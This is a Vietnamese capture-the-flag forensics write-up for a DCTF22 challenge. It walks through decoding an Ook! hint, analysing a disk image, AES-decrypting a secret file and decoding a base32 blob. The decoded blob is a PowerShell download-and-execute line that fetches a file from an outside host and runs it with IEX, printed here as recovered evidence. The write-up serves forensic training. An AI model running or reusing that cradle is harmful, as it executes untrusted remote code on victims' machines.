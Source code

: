 ## Description 
> Our computer performance was altered by a malicious individual. We have managed to make a copy of the altered computer and we need immediately to obtain some answers regarding this file. Due to the stressful situation, one of our colleagues managed to write just a single word in his notebook:

Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook. Ook? Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook! Ook! Ook? Ook! Ook. Ook? Ook. Ook? Ook. Ook? Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook! Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook.

Your input is needed on the following aspects and you should remember that wecracktheworlds is an important key in this process.

Files are available at the following links:

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.000

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.001

https://storage.googleapis.com/cyberedu-production/dctf22-ok-chall/unintended.zip.002
## Link challenge 
> https://app.cyber-edu.co/challenges/4e2c22f0-89ba-11ec-ac00-ffdc527ff99d?tenant=cyberedu
## Solution
> Câu hỏi 1 : A message is received when the first task is completed. Please share it with us: (Points: 229)
- Đầu tiên về phần description, em thấy có 1 đoạn rất nhiều chữ ook, đây có thể là 1 dạng mã hoá gì đấy.
- Sau ít phút tìm kiếm thì em tìm thấy trang giải mã trực tuyến : https://www.dcode.fr/ook-language
- Giải mã ra ta được hint của đề : `autopsy`
- Về phần các file data trong đề: Sau khi tải thấy các số tương ứng với phần của 1 file zip, em sử dụng công cụ file-joiner-x64 để gộp các file lại với nhau 
- ![image](image/9.PNG)
- Giải nén ra em được 1 fie vmdk, sử dụng FTK image để phân tích
- ![image](image/10.PNG)
- ![image](image/11.PNG)
- Sau khi mở lên lướt sơ qua các mục em thấy tại `Parttion2/root/Users/sunflower` có 1 vài điểm chú ý.
- Tại Document có 1 file secret1.txt có giá trị là `E5EB9479E816D06CD53062B1EF017B185D9E47B087059484EEF344810E4B06A7`. Ban đầu em nghĩ đây là hexa, nhưng decode không được. Chú ý lại đề bài thì thấy  `Your input is needed on the following aspects and you should remember that wecracktheworlds is an important key in this process.`
- Có thể đây là key của 1 loại mã hoá gì đó 
- Sau khi thử từ trang web này [https://the-x.cn/vi-VN/cryptography/Aes.aspx](https://the-x.cn/vi-VN/cryptography/Aes.aspx) em có thể giải mã được với khoá `wecracktheworlds` 
- ![image](image/13.PNG)
> yourfirstmissioniscompleted

> Câu hỏi 2 : We know that the attacker attempted to download an infected image from one of his servers before launching the attack. Can you provide the file name? (Points: 50).
- Sau khi tìm tiếp, tại Desktop có 1 đoạn mã hoá dữ liệu powershell (chứa đuôi ps)
- Xem ở cuối file có đến 6 dấu =, đây đích thị là mã hoá base32
```
EBNVG6LTORSW2LSOMV2C4V3FMJBWY2LFNZ2F2JDXMVREG3DJMVXHIIB5EBHGK5ZNJ5RGUZLDOQQFG6LTORSW2LSOMV2C4V3FMJBWY2LFNZ2DWW2TPFZXIZLNFZEU6LSTORZGKYLNLUSHG5DSMVQW2IB5EASHOZLCINWGSZLOOQXE64DFNZJGKYLEFATWQ5DUOBZTULZPGUXHI33QGR2G64BONZSXIL3QL4YTGNZSNBRTK2TWGEXGU4DHE4UTWW2TPFZXIZLNFZEU6LSTORZGKYLNKJSWCZDFOJOSI43SEA6SATTFO4WU6YTKMVRXIICTPFZXIZLNFZEU6LSTORZGKYLNKJSWCZDFOIQC2YLSM52W2ZLOORGGS43UEASHG5DSMVQW2O23ON2HE2LOM5OSI4TFON2WY5DTEA6SAJDTOIXFEZLBMRKG6RLOMQUCSO2JIVMCAJDSMVZXK3DUOM5SAZDFMZSW4ZDFOI======
```
- Giải mã bằng cybercheff
```
 [System.Net.WebClient]$webClient = New-Object System.Net.WebClient;[System.IO.Stream]$stream = $webClient.OpenRead('https://5.top4top.net/p_1372hc5jv1.jpg');[System.IO.StreamReader]$sr = New-Object System.IO.StreamReader -argumentList $stream;[string]$results = $sr.ReadToEnd();IEX $results; defender
```
- Giải thích đoạn ps này 1 tí 
- ![image](image/15.PNG)
- Nhìn chung attacker sẽ tải file về rồi thực thi chúng bằng ps
> p_1372hc5jv1.jpg

> Câu hỏi 3 : We know that the attacker used a password to unrar the malicious scripts downloaded from his server. Can you provide its value? (Points: 50)
- Tại mục Downloads em tìm thấy 1 file malware, đi sâu vào trong em thấy mật khẩu giải nén nằm trong tệp README.txt
- ![image](image/16.PNG)
> infect

> Câu hỏi 4 : We suspect that the Sample 5 script contains another malicious download link. Can you determine the address? (Points: 86)
- Câu này chưa làm được =)))